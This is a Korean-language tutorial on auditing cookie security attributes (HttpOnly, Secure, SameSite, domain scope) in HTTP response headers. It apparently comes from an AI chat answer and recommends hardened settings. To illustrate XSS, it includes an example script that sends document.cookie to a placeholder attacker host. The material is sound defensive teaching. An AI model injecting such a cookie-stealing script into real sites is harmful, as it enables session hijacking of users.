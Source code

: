 `Set-Cookie` 헤더들을 보면서 **취약 여부**를 판단하려면, 각각의 쿠키 속성들이 **보안적으로 적절하게 설정되어 있는지**를 봐야 한다.

---

## 🔍 응답 헤더 분석

### ✅ 예시 1:

```http
Set-Cookie: company_cd=0; path=/; domain=.TT.com; secure
```

| 속성               | 의미               | 비고              |
| ---------------- | ---------------- | --------------- |
| `company_cd=0`   | 쿠키 이름과 값         | 민감 정보 여부 확인 필요  |
| `path=/`         | 전체 경로에서 유효       | ✅ 정상            |
| `domain=.TT.com` | 모든 서브도메인에 쿠키 전송  | ⚠️ 주의 필요        |
| `secure`         | HTTPS에서만 전송      | ✅ 좋아요           |
| **HttpOnly 없음**  | **자바스크립트 접근 차단 미설정** | ❌ **취약 가능성 있음** |


* **`HttpOnly`가 설정된 쿠키는 자바스크립트에서 `document.cookie`로 접근할 수 없다.**
* **XSS(크로스 사이트 스크립팅)**, 세션 하이재킹 공격으로부터 쿠키를 보호하기 위한 보안 조치.
좋은 질문입니다. `HttpOnly`가 설정되지 않았을 때 **XSS(크로스 사이트 스크립팅)** 공격이 어떻게 일어나는지를 이해하면, 왜 `HttpOnly`가 중요한지 명확히 알 수 있습니다.

## 📌 공격 시나리오 : 공격자가 악성 스크립트를 게시글에 삽입

```html
<script>
  // 쿠키 탈취 코드
  fetch("https://attacker.com/steal?cookie=" + document.cookie);
</script>
```

* 브라우저는 삽입된 `<script>`를 실행
* `document.cookie`를 통해 **세션 쿠키**가 유출됨
* 공격자는 `https://attacker.com/steal?...`로 쿠키를 수집


### (1) `HttpOnly`가 **없는** 쿠키

```http
Set-Cookie: token=abc123; Path=/;
```

자바스크립트에서 접근 가능:

```js
console.log(document.cookie); 
// 출력: "token=abc123"
```


### (2) `HttpOnly`가 **있는** 쿠키

```http
Set-Cookie: token=abc123; Path=/; HttpOnly
```

자바스크립트에서 접근 불가능

---

## 💡 `domain=.TT.com` 이 위험한 이유?

* **"서브도메인 간 쿠키 공유 리스크"** 
* 이 설정은 **모든 하위(서브) 도메인 (예: `api.TT.com`, `user.TT.com`)** 에서 이 쿠키를 **공유**
* 만약 같은 도메인 하위의 서비스 중 하나라도 XSS나 취약점이 있다면,
  → **다른 서비스의 쿠키까지 탈취 가능**해짐

---

### ✅ 예시 2:

```http
Set-Cookie: ci_session_community=3nb2imaqrkqcqsmi692btqfqt9b8ir8h; path=/; HttpOnly
```

| 속성                         | 의미            | 비고                           |
| -------------------------- | ------------- | ---------------------------- |
| `ci_session_community=...` | 세션 ID로 보임     | ⚠️ 민감한 쿠키일 가능성               |
| `path=/`                   | 전체 경로 유효      | ✅ 정상                         |
| `HttpOnly`                 | JS 접근 차단      | ✅ 좋아요                        |
| **Secure 없음**              | **HTTP에서도 전송 가능** | ❌ HTTPS가 아닌 경우 **중간자 공격 위험** |

---

## 🔒 보안적으로 중요한 쿠키 속성 3가지

| 속성         | 역할                  | 미설정 시 위험      |
| ---------- | ------------------- | ------------- |
| `HttpOnly` | JS에서 접근 불가 (XSS 방지) | 세션 탈취         |
| `Secure`   | HTTPS에서만 전송         | 중간자 공격 (MITM) |
| `SameSite` | CSRF 방지             | 크로스 사이트 요청 허용 |

---

## ✅ 권장 설정 예시

```http
Set-Cookie: session_id=...; Path=/; Secure; HttpOnly; SameSite=Strict
```
